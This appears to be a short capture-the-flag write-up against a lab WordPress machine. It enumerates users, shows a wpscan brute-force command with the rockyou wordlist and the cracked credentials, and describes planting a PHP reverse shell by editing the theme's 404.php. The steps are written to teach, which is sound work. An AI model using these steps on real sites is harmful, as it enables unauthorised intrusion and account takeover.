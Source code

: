 ## /hidden directory has the following:

C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip


## Users found using wpscan:
hugo
philip
c0ldd

## using wpscan to brute force, we get c0ldd's credentials
```bash 
wpscan --url http://10.10.228.176/ -U c0ldd,hugo,philip /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

```


### several options after logging in. first step would be to try to get a shell using php reverse shell. we can try to upload a php plugin or edit an existing page.

I chose to change the 404.php page to exec the php reverse shell. 
This can be edited by going to Appearance > Editor
Visiting the 
http://10.10.226.162/wp-content/themes/twentyfifteen/404.php
will exec the code.


